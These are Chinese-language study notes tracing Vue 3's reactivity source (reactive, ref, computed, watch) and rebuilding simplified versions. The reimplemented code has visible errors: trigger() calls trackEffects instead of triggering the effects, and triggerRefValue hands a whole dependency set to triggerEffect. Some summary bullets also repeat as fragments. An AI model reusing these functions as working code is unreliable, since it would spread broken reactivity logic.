- 通过之前 getter 收集到的关系（保存在 targetMap 中）找到对应的 reactiveEffect 然后执行对应的匿名函数
总结
- 创建 proxy
- 生成代理对象 proxy，并且设置 proxy 的 getter 和 setter
- 收集 effect 依赖
- effect 中创建 ReactiveEffect 对象，执行 fn，触发 proxy 的 getter，getter 中收集依赖，建立当前 ReactiveEffect 与指定
被代理对象的指定属性之间的关系。
- effect 中创建 ReactiveEffect 对象，执行 fn，触发 proxy 的 getter，getter 中收集依赖，建立当前 ReactiveEffect 与指定
- 触发收集的依赖
- 当改变代理对象的属性的时候，触发 setter，通过刚才收集到的依赖，很容易的找到指定
被代理对象的指定属性对应的 ReactiveEffect 对象，直接触发 ReactiveEffect 上的 fn 也就是执行之前传递给 effect 的匿名函数
- 当改变代理对象的属性的时候，触发 setter，通过刚才收集到的依赖，很容易的找到指定
- 有点像发布订阅模式，但不完全一样
- 有三个模块互相作用实现了响应式，1. 响应式数据 proxy 对象 2. effect 副作用函数（背后是 reactiveEffect）3. targetMap 结构
- proxy 的 getter 收集依赖，依赖存在 targetMap 结构中，setter 触发依赖，从 targetMap 结构中找到对应依赖，也就找到了 effect 副作用函数
- targetMap 的结构是两层，第一层 key 是响应式数据，value 是一个 map 对象，第二层 map 对象的 key 是响应式数据的属性，value 是收集到的 reactiveEffect 组成的 set 数组
- 所以，响应式数据 proxy 对象就是发布者，effect 函数是订阅者，只是订阅关系没有放到 proxy 对象中，而是放在了一个 weakMap 结构中单独存储（targetMap）
实现 reactivity
WeakMap
-
Map 和 WeakMap 都是 key-value 形式的对象，它们的区别有 2 点
- WeakMap 的 key 必须是对象
- key 是弱引用的
-
弱引用：不会影响垃圾回收机制。即 WeakMap 的 key 不存在任何引用时，会被立即回收
-
强引用：影响垃圾回收机制。存在强引用的对象永远不会被回收
let obj = {
name: '张三',
};
const map = new Map();
map.set(obj, 'value');
obj = null;
// obj 是堆内存中的数据，当设置为 null 时，理应被垃圾回收，但是因为 Map 是强引用，因此不会被回收，依然存在
// 如果将 Map 改为 WeakMap，obj 将被回收，并且 map 变量也没有值了
- 这就是 vue 使用 WeakMap 的原因，比如
proxyMap.set(target, proxy);，当 proxyMap 中的被代理对象 target 不存在了，那么代理对象 proxy 就会被自动清除，以达到内存的优化
如何进行依赖收集
-
响应式其实就是当触发 setter 的时候执行对应的 effect 函数，因此要在第一次执行 effect 函数触发 getter 的时候收集到 effect 函数，以便建立联系，才能在 setter 触发的时候找到对应的函数
-
而且收集的时候，不仅仅只是收集函数，还要与指定的被代理对象的指定属性建立对应的关系，这样才能在这个属性触发 setter 的时候，触发对应的函数
-
因此收集依赖，可以利用一个 WeakMap
- key 是被代理对象
- value 是 Map 对象
- key 是被代理对象的指定属性
- value 被代理对象指定属性的 effect 函数生成的 ReactiveEffect 实例 组成的数组（这样可以实现一个属性对应多个 effect 函数）
reactive.ts
import { mutableHandlers } from './baseHandlers';
/**
* 响应性 Map 缓存对象
* key：target
* val：proxy
*/
export const reactiveMap = new WeakMap<object, any>();
/**
* 为复杂数据类型，创建响应性对象
* @param target 被代理对象
* @returns 代理对象
*/
export function reactive(target: object) {
return createReactiveObject(target, mutableHandlers, reactiveMap);
}
/**
* 创建响应性对象
* @param target 被代理对象
* @param baseHandlers handler
*/
function createReactiveObject(
target: object,
baseHandlers: ProxyHandler<any>,
proxyMap: WeakMap<object, any>
) {
// 如果该实例已经被代理，则直接读取即可
const existingProxy = proxyMap.get(target);
if (existingProxy) {
return existingProxy;
}
// 未被代理则生成 proxy 实例
const proxy = new Proxy(target, baseHandlers);
// 缓存代理对象
proxyMap.set(target, proxy);
return proxy;
}
baseHandlers.ts
import { track, trigger } from './effect';
/**
* getter 方法
*/
const get = createGetter();
function createGetter() {
return function get(target: object, key: string | symbol, receiver: object) {
// 利用 Reflect 得到返回值
const res = Reflect.get(target, key, receiver);
// 收集依赖
track(target, key);
return res;
};
}
/**
* setter 方法
*/
const set = createSetter();
function createSetter() {
return function set(
target: object,
key: string | symbol,
value: unknown,
receiver: object
) {
// 利用 Reflect.set 设置新值
const result = Reflect.set(target, key, value, receiver);
// 触发依赖
trigger(target, key, value);
return result;
};
}
export const mutableHandlers: ProxyHandler<object> = {
get,
set,
};
effect.ts
import { isArray } from '@vue/shared';
import { createDep, Dep } from './dep';
type KeyToDepMap = Map<any, Dep>;
/**
* 收集所有依赖的 WeakMap 实例：
* 1. `key`：响应性对象
* 2. `value`：`Map` 对象
* 1. `key`：响应性对象的指定属性
* 2. `value`：指定对象的指定属性的执行函数生成的 ReactiveEffect 实例组成的 Set 数组
*/
const targetMap = new WeakMap<any, KeyToDepMap>();
export function effect<T = any>(fn: () => T) {
const _effect = new ReactiveEffect(fn);
_effect.run();
}
export let activeEffect: ReactiveEffect | undefined;
export class ReactiveEffect<T = any> {
constructor(public fn: () => T) {}
run() {
activeEffect = this;
return this.fn();
}
}
/**
* 用于收集依赖的方法
* @param target WeakMap 的 key
* @param key 代理对象的 key，当依赖被触发时，需要根据该 key 获取
*/
export function track(target: object, key: unknown) {
// 如果当前不存在执行函数，则直接 return
if (!activeEffect) return;
// 尝试从 targetMap 中，根据 target 获取 map
let depsMap = targetMap.get(target);
// 如果获取到的 map 不存在，则生成新的 map 对象，并把该对象赋值给对应的 value
if (!depsMap) {
targetMap.set(target, (depsMap = new Map()));
}
// 获取指定 key 的 dep
let dep = depsMap.get(key);
// 如果 dep 不存在，则生成一个新的 dep，并放入到 depsMap 中
if (!dep) {
{
depsMap.set(key, (dep = createDep()));
}
}
trackEffects(dep);
}
/**
* 利用 dep 依次跟踪指定 key 的所有 effect
* @param dep
*/
export function trackEffects(dep: Dep) {
// activeEffect! ： 断言 activeEffect 不为 null
dep.add(activeEffect!);
}
/**
* 触发依赖的方法
* @param target WeakMap 的 key
* @param key 代理对象的 key，当依赖被触发时，需要根据该 key 获取
*/
export function trigger(target: object, key: unknown, newValue: unknown) {
// 依据 target 获取存储的 map 实例
const depsMap = targetMap.get(target);
// 如果 map 不存在，则直接 return
if (!depsMap) {
return;
}
// 依据指定的 key，获取 dep 实例
const dep = depsMap.get(key) as Dep;
// dep 不存在则直接 return
if (!dep) {
return;
}
// 触发 dep
trackEffects(dep);
}
/**
* 依次触发 dep 中保存的依赖
*/
export function triggerEffects(dep: Dep) {
// 把 dep 构建为一个数组
const effects = isArray(dep) ? dep : [...dep];
// 依次触发
for (const effect of effects) {
triggerEffect(effect);
}
}
/**
* 触发指定的依赖
*/
export function triggerEffect(effect: ReactiveEffect) {
effect.fn();
}
dep.ts
import { ReactiveEffect } from './effect';
export type Dep = Set<ReactiveEffect>;
/**
* 依据 effects 生成 dep 实例
*/
export const createDep = (effects?: ReactiveEffect[]): Dep => {
const dep = new Set<ReactiveEffect>(effects) as Dep;
return dep;
};
ref 源码
ref 源码跟踪
const { ref, effect } = Vue;
const obj1 = ref({ name: '张三' });
effect(() => {
document.querySelector('#app1').innerHTML = obj1.value.name;
});
setTimeout(() => {
obj1.value.name = '李四';
}, 2000);
const obj2 = ref('张三');
effect(() => {
document.querySelector('#app2').innerHTML = obj2.value;
});
setTimeout(() => {
obj2.value = '李四';
}, 2000);
ref
-
packages\reactivity\src\ref.tsref 最终返回了一个 RefImpl 实例export function ref(value?: unknown) { return createRef(value, false); } export function isRef(r: any): r is Ref { return !!(r && r.__v_isRef === true); } function createRef(rawValue: unknown, shallow: boolean) { if (isRef(rawValue)) { return rawValue; } return new RefImpl(rawValue, shallow); } -
RefImpl 类
- 这里的实现可以发现，如果传入的数据是对象，那么会直接调用 toReactive，其本质就是 reactive 方法
- class 的 get 和 set 就是实例的 getter 和 setter
class RefImpl<T> { private _value: T; private _rawValue: T; public dep?: Dep = undefined; public readonly __v_isRef = true; constructor(value: T, public readonly __v_isShallow: boolean) { // _rawValue 原始数据 this._rawValue = __v_isShallow ? value : toRaw(value); // _value 如果是对象，用 reactive 来处理响应式 this._value = __v_isShallow ? value : toReactive(value); } // 实例的 getter get value() { trackRefValue(this); return this._value; } // 实例的 setter set value(newVal) { newVal = this.__v_isShallow ? newVal : toRaw(newVal); if (hasChanged(newVal, this._rawValue)) { this._rawValue = newVal; this._value = this.__v_isShallow ? newVal : toReactive(newVal); triggerRefValue(this, newVal); } } } -
effect 中的匿名函数执行，会触发实例的 getter，调用
trackRefValue(this);，trackRefValue 会调用 trackEffects，之前 reactive 中收集依赖也是 trackEffects 这个方法，其中会执行dep.add(activeEffect!)完成依赖收集- 先触发 1 次 RefImpl 的 get
- 再触发 1 次 ReactiveEffect 的 getter
export function trackRefValue(ref: RefBase<any>) { if (shouldTrack && activeEffect) { ref = toRaw(ref); if (__DEV__) { trackEffects(ref.dep || (ref.dep = createDep()), { target: ref, type: TrackOpTypes.GET, key: 'value', }); } else { trackEffects(ref.dep || (ref.dep = createDep())); } } } -
接着给 ref 变量设置值的时候
-
先触发 1 次 RefImpl 的 getter（这一次没有 activeEffect，所以什么都不会做）
-
接着再触发 1 次 ReactiveEffect 的 setter，完成依赖的触发
setTimeout(() => { obj.value.name = '李四'; }, 2000);
-
总结
- 当传递给 ref 的是复杂类型的时候，响应性的实现还依然走的是 reactive，但是生成的 proxy 挂在了 RefImpl 的 value 属性上；当传递给 ref 是简单类型的时候，依赖收集和触发依靠的是 RefImpl 实例的 value 属性的 getter 和 setter。所以不论是简单数据还是复杂数据，ref 的响应式都需要通过 value 属性来触发。
- 复杂数据是因为生成的 proxy 在 RefImpl 实例的 value 属性上，复杂数据的依赖收集和触发依然走的是 proxy 的逻辑
- 简单数据是因为 RefImpl 实例的 value 属性的 getter 和 setter 负责简单数据的依赖收集和依赖触发
实现 ref
import { hasChanged } from '@vue/shared';
import { createDep } from './dep';
import { activeEffect, trackEffects, triggerEffect } from './effect';
import { toReactive } from './reactive';
export interface Ref<T = any> {
value: T;
}
/**
* ref 函数
* @param value unknown
*/
export function ref(value?: unknown) {
return createRef(value, false);
}
/**
* 创建 RefImpl 实例
* @param rawValue 原始数据
* @param shallow boolean 形数据，表示《浅层的响应性（即：只有 .value 是响应性的）》
* @returns
*/
function createRef(rawValue: unknown, shallow: boolean) {
if (isRef(rawValue)) {
return rawValue;
}
return new RefImpl(rawValue, shallow);
}
class RefImpl<T> {
private _value: T;
private _rawValue: T;
// 是否为 ref 类型数据的标记
public readonly __v_isRef = true;
// 如果 __v_isShallow 为 true，则 value 不会被转化为 reactive 数据，即如果当前 value 为复杂数据类型，则会失去响应性。对应官方文档 shallowRef ：https://cn.vuejs.org/api/reactivity-advanced.html#shallowref
constructor(value: T, public readonly __v_isShallow: boolean) {
// 原始数据
this._rawValue = value;
this._value = __v_isShallow ? value : toReactive(value);
}
get value() {
// 收集依赖
trackRefValue(this);
return this._value;
}
set value(newVal) {
/**
* newVal 为新数据
* this._rawValue 为旧数据（原始数据）
* 对比两个数据是否发生了变化
*/
if (hasChanged(newVal, this._rawValue)) {
// 更新原始数据
this._rawValue = newVal;
// 更新 .value 的值
this._value = toReactive(newVal);
// 触发依赖
triggerRefValue(this);
}
}
}
/**
* 为 ref 的 value 进行依赖收集工作
*/
export function trackRefValue(ref) {
if (activeEffect) {
trackEffects(ref.dep || (ref.dep = createDep()));
}
}
/**
* 为 ref 的 value 进行触发依赖工作
*/
export function triggerRefValue(ref) {
if (ref.dep) {
triggerEffect(ref.dep);
}
}
/**
* 指定数据是否为 RefImpl 类型
*/
export function isRef(r: any): r is Ref {
return !!(r && r.__v_isRef === true);
}
- ref 的意义是为了处理简单数据无法使用 Proxy 的情况，使用自定义类 RefImpl 的 get 和 set 属性来模拟 Proxy 的 getter 和 setter，实现响应式的效果。因此使用的时候必须使用
.value来主动触发 getter 和 setter - 而复杂数据的处理依然走 reactive 方法
computed 源码
- 计算属性 computed 会基于其响应式依赖被缓存，并且在依赖的响应式数据发生变化时重新计算
<script>
const { reactive, effect, computed } = Vue;
const obj = reactive({
name: '张三',
});
const computedObj = computed(() => {
return '姓名： ' + obj.name;
});
effect(() => {
document.querySelector('#app').innerText = computedObj.value;
});
setTimeout(() => {
obj.name = '李四';
}, 2000);
</script>
coumputed
-
computed 调用后，我们传递给 computed 的函数被设置为 getter，setter 没有设置是空函数，然后创建 ComputedRefImpl 实例
export function computed<T>( getterOrOptions: ComputedGetter<T> | WritableComputedOptions<T>, debugOptions?: DebuggerOptions, isSSR = false ) { let getter: ComputedGetter<T>; let setter: ComputedSetter<T>; const onlyGetter = isFunction(getterOrOptions); if (onlyGetter) { // 传递给 computed 的函数被设置为 getter getter = getterOrOptions; // setter 没有设置是空函数 setter = __DEV__ ? () => { console.warn('Write operation failed: computed value is readonly'); } : NOOP; } else { getter = getterOrOptions.get; setter = getterOrOptions.set; } // 创建 ComputedRefImpl 实例 const cRef = new ComputedRefImpl( getter, setter, onlyGetter || !setter, isSSR ); if (__DEV__ && debugOptions && !isSSR) { cRef.effect.onTrack = debugOptions.onTrack; cRef.effect.onTrigger = debugOptions.onTrigger; } return cRef as any; } -
创建 ComputedRefImpl 实例
export class ComputedRefImpl<T> { // dep属性 是一个 set 数组，里面存放的都是收集到的 reactiveEffect 依赖，和之前的 refImpl 类一样 public dep?: Dep = undefined; private _value!: T; public readonly effect: ReactiveEffect<T>; // ref 标识符为 true public readonly __v_isRef = true; public readonly [ReactiveFlags.IS_READONLY]: boolean; // 脏变量为 true（有重要作用） public _dirty = true; public _cacheable: boolean; constructor( getter: ComputedGetter<T>, private readonly _setter: ComputedSetter<T>, isReadonly: boolean, isSSR: boolean ) { // 新建了一个 ReactiveEffect，第一个参数 getter 就是传递给 computed 的函数，也就是说传递给 computed 的函数和使用 effect api 时候传递给 effect 的函数是一样的效果，就是依赖触发时的 fn this.effect = new ReactiveEffect(getter, () => { // 判断脏变量如果不是 true，就让脏变量变成 true，然后触发依赖 // 因此可以得知 _dirty 脏变量用来控制什么时候触发依赖 if (!this._dirty) { this._dirty = true; triggerRefValue(this); } }); this.effect.computed = this; this.effect.active = this._cacheable = !isSSR; this[ReactiveFlags.IS_READONLY] = isReadonly; } get value() { // the computed ref may get wrapped by other proxies e.g. readonly() #3376 const self = toRaw(this); trackRefValue(self); if (self._dirty || !self._cacheable) { self._dirty = false; self._value = self.effect.run()!; } return self._value; } set value(newValue: T) { this._setter(newValue); } } -
接着走到
effect(() => {document.querySelector('#app').innerText = computedObj.value;});， 会触发 ComputedRefImpl 的 getterexport class ComputedRefImpl<T> { // dep属性 是一个 set 数组，里面存放的都是收集到的 reactiveEffect 依赖，和之前的 refImpl 类一样 public dep?: Dep = undefined; private _value!: T; public readonly effect: ReactiveEffect<T>; // ref 标识符为 true public readonly __v_isRef = true; public readonly [ReactiveFlags.IS_READONLY]: boolean; // 脏变量为 true（有重要作用） public _dirty = true; public _cacheable: boolean; constructor( getter: ComputedGetter<T>, private readonly _setter: ComputedSetter<T>, isReadonly: boolean, isSSR: boolean ) { // 新建了一个 ReactiveEffect，第一个参数 getter 就是传递给 computed 的函数，也就是说传递给 computed 的函数和使用 effect api 时候传递给 effect 的函数是一样的效果，就是依赖触发时的 fn this.effect = new ReactiveEffect(getter, () => { // 判断脏变量如果不是 true，就让脏变量变成 true，然后触发依赖 // 因此可以得知 _dirty 脏变量用来控制什么时候触发依赖 if (!this._dirty) { this._dirty = true; triggerRefValue(this); } }); this.effect.computed = this; this.effect.active = this._cacheable = !isSSR; this[ReactiveFlags.IS_READONLY] = isReadonly; } get value() { // the computed ref may get wrapped by other proxies e.g. readonly() #3376 const self = toRaw(this); // trackRefValue 收集依赖，使当前 effect 的匿名函数对应的 reactiveEffect 与当前 ComputedRefImpl 实例建立联系，类似 ref api 的逻辑 trackRefValue(self); // getter 触发的时候，如果脏状态为 true，说明是依赖收集阶段，这里已经收集完成，将脏状态变为 false if (self._dirty || !self._cacheable) { self._dirty = false; // 执行传递给 computed 的函数，第一次获取到计算属性的值存到 _value 里 // 传递给 computed 的函数是 () => {return '姓名： ' + obj.name;}，执行的时候又会触发 reactive 对象 obj 的 getter，然后进行 obj 这个 reactive 对象的依赖收集 self._value = self.effect.run()!; } return self._value; } set value(newValue: T) { this._setter(newValue); } }
总结
- 先通过 proxy 创建 reactive 对象 obj
- computed 计算属性，内部创建 computedRefImpl 实例，包含一个 effect 属性是一个 reactiveEffect 实例，fn 就是传给 computed 的函数，这里需要重点注意 computedRefImpl 的 reactiveEffect 实例传递了第二个参数是个匿名函数，这第二个参数就是 scheduler，用于最后触发依赖的时候有用
- effect 语句执行，也创建了一个 reactiveEffect 实例，最后执行 effect 的 fn，会触发 computedRefImpl 的 getter，getter 会调用 trackRefValue 收集依赖。这时是建立 computedRefImpl 这个 ref 对象和 effect 的 reactiveEffect 实例之间的关联，computedRefImpl 的 dep 属性（set 数组）中就会包含 effect 的 reactiveEffect 实例
- computedRefImpl 的依赖收集完成后（dep 中包含 effect 的 reactiveEffect），返回第一次 computed 计算结果
- 返回第一次 computed 计算结果的时候，因为使用了 obj.name，因此会触发 obj proxy 的 getter 收集依赖，这时候 activeEffect 是 computedRefImpl 的 reactiveEffect，于是 computedRefImpl 的 reactiveEffect 被加入到 obj 的 dep 中。
- computed 计算的结果，这个结果赋值给 app div 的 innerText，effect 就执行结束了，这时候页面上显示 姓名：张三
- 定时器过 2 秒后修改 obj.name 为 李四，触发 obj 的 setter，setter 中除了修改 obj.name 的值为新值 李四，还会去触发依赖，也就是 computedRefImpl 的 reactiveEffect，这时候就不会执行 fn 了，而是判断是否有 scheduler，如果有 scheduler 就说明是计算属性，会触发 scheduler（computedRefImpl 的 reactiveEffect 实例传递的第二个参数是个匿名函数）
- scheduler 判断 dirty，然后调用 triggerRefValue，这时候会找到 computedRefImpl 实例的 dep 依赖，然后触发，最终调用的是 effect 的 fn，这时候 effect 的 fn 里的逻辑会拿到最新的 computed 值 李四
简化：
- effect 触发 computedRefImpl 的 getter，computedRefImpl 实例收集依赖，和 effect 的 reactiveEffect 建立联系
- computed 计算值的时候触发 reactive 变量的 proxy getter，reactive 变量收集依赖，和 computedRefImpl 的 reactiveEffect 建立联系
- reactive 变量 setter 触发，联动会触发 computedRefImpl 的 reactiveEffect，执行 computedRefImpl 的 scheduler，scheduler 会将 dirty 变为 true，下一次 getter 获取值的时候就会重新计算最新的 computed 值，scheduler 会找到 computedRefImpl 收集的依赖中的 effect 的 reactiveEffect，最后执行的是 effect 函数，
实现 computed
computed.ts
import { isFunction } from '@vue/shared';
import { ReactiveEffect } from './effect';
import { Dep } from './dep';
import { trackRefValue, triggerRefValue } from './ref';
export class ComputedRefImpl<T> {
public dep?: Dep = undefined;
private _value!: T;
public readonly effect: ReactiveEffect<T>;
public readonly __v_isRef = true;
/**
* 脏：为 false 时，表示需要触发依赖。为 true 时表示需要重新执行 run 方法，获取数据。即：数据脏了
*/
public _dirty = true;
constructor(getter) {
this.effect = new ReactiveEffect(getter, () => {
// 判断当前脏的状态，如果为 false，表示需要《触发依赖》
if (!this._dirty) {
// 将脏置为 true，表示需要重新计算 computed 变量
this._dirty = true;
triggerRefValue(this);
}
});
this.effect.computed = this;
}
get value() {
// 收集依赖
trackRefValue(this);
// 判断当前脏的状态，如果为 true ，则表示需要重新执行 run，获取最新数据
if (this._dirty) {
this._dirty = false;
// 执行 run 重新计算
this._value = this.effect.run();
}
// 返回计算之后的真实值
return this._value;
}
}
export function computed(getterOrOptions) {
let getter;
// 判断传入的参数是否为一个函数
let onlyGetter = isFunction(getterOrOptions);
// 如果是函数，则赋值给 getter
if (onlyGetter) {
getter = getterOrOptions;
}
const cRef = new ComputedRefImpl(getter);
return cRef;
}
triggerEffects 改变执行顺序解决无限循环问题
/**
* 触发 dep 中保存的依赖
*/
export function triggerEffects(dep: Dep) {
// 把 dep 构建为一个数组
const effects = isArray(dep) ? dep : [...dep];
// 依次触发
// for (const effect of effects) {
// triggerEffect(effect);
// }
// 当 effect 里有两次使用 computed 变量，就会让 computedRefImpl 收集到两个依赖，第一个是 effect 的 reactiveEffect，第二个就是 computedRefImpl 自己的 reactiveEffect。当触发更新的时候，按照顺序执行，就会陷入无限循环。因为最开始先执行 computedRefImpl.reactiveEffect 会将 dirty 变成 true，然后再通过 computedRefImpl.dep 顺序执行两个依赖，第一先执行 effect.reactiveEffect 的时候会触发 computedRefImpl.getter，将 dirty 重新变成 false，然后第二再执行 computedRefImpl.reactiveEffect 这时候 dirty 是 false，又会重新找到 computedRefImpl.dep 两个依赖再次执行，无限循环。
// 所以修改成先优先执行 computedRefImpl.reactiveEffect, 这样的话因为还没有执行 effect.reactiveEffect 触发 computedRefImpl.getter 去改变 dirty 的值，dirty 就不会变成 false，因此碰到第二次 computedRefImpl.reactiveEffect 的时候，会跳过，避免了无限循环
for (const effect of effects) {
if (effect.computed) {
triggerEffect(effect);
}
}
for (const effect of effects) {
if (!effect.computed) {
triggerEffect(effect);
}
}
}
watch 源码
<script>
const { reactive, watch } = Vue;
const obj = reactive({
name: '张三',
});
watch(obj, (newValue, oldValue) => {
console.log(`newValue: ${newValue}, oldValue: ${oldValue}`);
});
setTimeout(() => {
obj.name = '李四';
}, 2000);
</script>
watch
export function watch<T = any, Immediate extends Readonly<boolean> = false>(
source: T | WatchSource<T>,
cb: any,
options?: WatchOptions<Immediate>
): WatchStopHandle {
if (__DEV__ && !isFunction(cb)) {
warn(
`\`watch(fn, options?)\` signature has been moved to a separate API. ` +
`Use \`watchEffect(fn, options?)\` instead. \`watch\` now only ` +
`supports \`watch(source, cb, options?) signature.`
);
}
// 调用了 doWatch
return doWatch(source as any, cb, options);
}
doWatch
function doWatch(
source: WatchSource | WatchSource[] | WatchEffect | object,
cb: WatchCallback | null,
{ immediate, deep, flush, onTrack, onTrigger }: WatchOptions = EMPTY_OBJ
): WatchStopHandle {
if (__DEV__ && !cb) {
if (immediate !== undefined) {
warn(
`watch() "immediate" option is only respected when using the ` +
`watch(source, callback, options?) signature.`
);
}
if (deep !== undefined) {
warn(
`watch() "deep" option is only respected when using the ` +
`watch(source, callback, options?) signature.`
);
}
}
const warnInvalidSource = (s: unknown) => {
warn(
`Invalid watch source: `,
s,
`A watch source can only be a getter/effect function, a ref, ` +
`a reactive object, or an array of these types.`
);
};
const instance = currentInstance;
let getter: () => any;
let forceTrigger = false;
let isMultiSource = false;
if (isRef(source)) {
getter = () => source.value;
forceTrigger = isShallow(source);
} else if (isReactive(source)) {
// 我们的例子中用的 reactive 变量，所以会走这里
// getter 设置为直接返回 reactive 数据的函数
getter = () => source;
// 监听 reactive 数据，默认 deep 为 true
deep = true;
} else if (isArray(source)) {
isMultiSource = true;
forceTrigger = source.some((s) => isReactive(s) || isShallow(s));
getter = () =>
source.map((s) => {
if (isRef(s)) {
return s.value;
} else if (isReactive(s)) {
return traverse(s);
} else if (isFunction(s)) {
return callWithErrorHandling(s, instance, ErrorCodes.WATCH_GETTER);
} else {
__DEV__ && warnInvalidSource(s);
}
});
} else if (isFunction(source)) {
if (cb) {
// getter with cb
getter = () =>
callWithErrorHandling(source, instance, ErrorCodes.WATCH_GETTER);
} else {
// no cb -> simple effect
getter = () => {
if (instance && instance.isUnmounted) {
return;
}
if (cleanup) {
cleanup();
}
return callWithAsyncErrorHandling(
source,
instance,
ErrorCodes.WATCH_CALLBACK,
[onCleanup]
);
};
}
} else {
getter = NOOP;
__DEV__ && warnInvalidSource(source);
}
// 2.x array mutation watch compat
if (__COMPAT__ && cb && !deep) {
const baseGetter = getter;
getter = () => {
const val = baseGetter();
if (
isArray(val) &&
checkCompatEnabled(DeprecationTypes.WATCH_ARRAY, instance)
) {
traverse(val);
}
return val;
};
}
if (cb && deep) {
const baseGetter = getter;
getter = () => traverse(baseGetter());
}
let cleanup: () => void;
let onCleanup: OnCleanup = (fn: () => void) => {
cleanup = effect.onStop = () => {
callWithErrorHandling(fn, instance, ErrorCodes.WATCH_CLEANUP);
};
};
// in SSR there is no need to setup an actual effect, and it should be noop
// unless it's eager
if (__SSR__ && isInSSRComponentSetup) {
// we will also not call the invalidate callback (+ runner is not set up)
onCleanup = NOOP;
if (!cb) {
getter();
} else if (immediate) {
callWithAsyncErrorHandling(cb, instance, ErrorCodes.WATCH_CALLBACK, [
getter(),
isMultiSource ? [] : undefined,
onCleanup,
]);
}
return NOOP;
}
let oldValue = isMultiSource ? [] : INITIAL_WATCHER_VALUE;
// job 非常重要 watch 的核心
const job: SchedulerJob = () => {
if (!effect.active) {
return;
}
if (cb) {
// watch(source, cb)
const newValue = effect.run();
if (
deep ||
forceTrigger ||
(isMultiSource
? (newValue as any[]).some((v, i) =>
hasChanged(v, (oldValue as any[])[i])
)
: hasChanged(newValue, oldValue)) ||
(__COMPAT__ &&
isArray(newValue) &&
isCompatEnabled(DeprecationTypes.WATCH_ARRAY, instance))
) {
// cleanup before running cb again
if (cleanup) {
cleanup();
}
callWithAsyncErrorHandling(cb, instance, ErrorCodes.WATCH_CALLBACK, [
newValue,
// pass undefined as the old value when it's changed for the first time
oldValue === INITIAL_WATCHER_VALUE ? undefined : oldValue,
onCleanup,
]);
oldValue = newValue;
}
} else {
// watchEffect
effect.run();
}
};
// important: mark the job as a watcher callback so that scheduler knows
// it is allowed to self-trigger (#1727)
job.allowRecurse = !!cb;
// 声明一个 调度器
let scheduler: EffectScheduler;
if (flush === 'sync') {
scheduler = job as any; // the scheduler function gets called directly
} else if (flush === 'post') {
scheduler = () => queuePostRenderEffect(job, instance && instance.suspense);
} else {
// 调度器赋值
// default: 'pre'
scheduler = () => queuePreFlushCb(job);
}
// reactiveEffect 实例，第二个参数是调度器
const effect = new ReactiveEffect(getter, scheduler);
if (__DEV__) {
effect.onTrack = onTrack;
effect.onTrigger = onTrigger;
}
// initial run
if (cb) {
if (immediate) {
job();
} else {
// 计算 oldValue
oldValue = effect.run();
}
} else if (flush === 'post') {
queuePostRenderEffect(
effect.run.bind(effect),
instance && instance.suspense
);
} else {
effect.run();
}
return () => {
effect.stop();
if (instance && instance.scope) {
remove(instance.scope.effects!, effect);
}
};
}
当定时器触发 reactive 变量 setter 的时候，触发了 triggerEffects
function triggerEffect(
effect: ReactiveEffect,
debuggerEventExtraInfo?: DebuggerEventExtraInfo
) {
if (effect !== activeEffect || effect.allowRecurse) {
if (__DEV__ && effect.onTrigger) {
effect.onTrigger(extend({ effect }, debuggerEventExtraInfo));
}
if (effect.scheduler) {
effect.scheduler();
} else {
effect.run();
}
}
}
这里可以看到会触发 watch 的 reactiveEffect 的 scheduler，会执行 scheduler = () => queuePreFlushCb(job);
export function queuePreFlushCb(cb: SchedulerJob) {
queueCb(cb, activePreFlushCbs, pendingPreFlushCbs, preFlushIndex);
}
queuePreFlushCb 中又调用了 queueCb
function queueCb(
cb: SchedulerJobs,
activeQueue: SchedulerJob[] | null,
pendingQueue: SchedulerJob[],
index: number
) {
if (!isArray(cb)) {
if (
!activeQueue ||
!activeQueue.includes(cb, cb.allowRecurse ? index + 1 : index)
) {
// 将 job 函数 push 到 pendingQueue 中
pendingQueue.push(cb);
}
} else {
// if cb is an array, it is a component lifecycle hook which can only be
// triggered by a job, which is already deduped in the main queue, so
// we can skip duplicate check here to improve perf
pendingQueue.push(...cb);
}
// 调用 queueFlush
queueFlush();
}
queueCb 将 job 函数 push 到 pendingQueue 中，然后调用 queueFlush
function queueFlush() {
if (!isFlushing && !isFlushPending) {
isFlushPending = true;
currentFlushPromise = resolvedPromise.then(flushJobs);
}
}
resolvedPromise 就是 promise.resolve()，flushJobs 被放入微任务中执行
function flushJobs(seen?: CountMap) {
isFlushPending = false;
isFlushing = true;
if (__DEV__) {
seen = seen || new Map();
}
// flushPreFlushCbs 中会触发 job 函数
flushPreFlushCbs(seen);
// Sort queue before flush.
// This ensures that:
// 1. Components are updated from parent to child. (because parent is always
// created before the child so its render effect will have smaller
// priority number)
// 2. If a component is unmounted during a parent component's update,
// its update can be skipped.
queue.sort((a, b) => getId(a) - getId(b));
// conditional usage of checkRecursiveUpdate must be determined out of
// try ... catch block since Rollup by default de-optimizes treeshaking
// inside try-catch. This can leave all warning code unshaked. Although
// they would get eventually shaken by a minifier like terser, some minifiers
// would fail to do that (e.g. https://github.com/evanw/esbuild/issues/1610)
const check = __DEV__
? (job: SchedulerJob) => checkRecursiveUpdates(seen!, job)
: NOOP;
try {
for (flushIndex = 0; flushIndex < queue.length; flushIndex++) {
const job = queue[flushIndex];
if (job && job.active !== false) {
if (__DEV__ && check(job)) {
continue;
}
// console.log(`running:`, job.id)
callWithErrorHandling(job, null, ErrorCodes.SCHEDULER);
}
}
} finally {
flushIndex = 0;
queue.length = 0;
flushPostFlushCbs(seen);
isFlushing = false;
currentFlushPromise = null;
// some postFlushCb queued jobs!
// keep flushing until it drains.
if (
queue.length ||
pendingPreFlushCbs.length ||
pendingPostFlushCbs.length
) {
flushJobs(seen);
}
}
}
flushJobs 中调用了 flushPreFlushCbs，flushPreFlushCbs 中触发了 job 函数
export function flushPreFlushCbs(
seen?: CountMap,
parentJob: SchedulerJob | null = null
) {
if (pendingPreFlushCbs.length) {
currentPreFlushParentJob = parentJob;
// 将 pendingPreFlushCbs 置空，将其中的 job 队列移动到 activePreFlushCbs 中准备执行
activePreFlushCbs = [...new Set(pendingPreFlushCbs)];
pendingPreFlushCbs.length = 0;
if (__DEV__) {
seen = seen || new Map();
}
for (
preFlushIndex = 0;
preFlushIndex < activePreFlushCbs.length;
preFlushIndex++
) {
if (
__DEV__ &&
checkRecursiveUpdates(seen!, activePreFlushCbs[preFlushIndex])
) {
continue;
}
// for 循环执行 job 队列
activePreFlushCbs[preFlushIndex]();
}
activePreFlushCbs = null;
preFlushIndex = 0;
currentPreFlushParentJob = null;
// recursively flush until it drains
flushPreFlushCbs(seen, parentJob);
}
}
将 pendingPreFlushCbs 置空，将其中的 job 队列移动到 activePreFlushCbs 中准备执行，然后 for 循环执行 job 队列
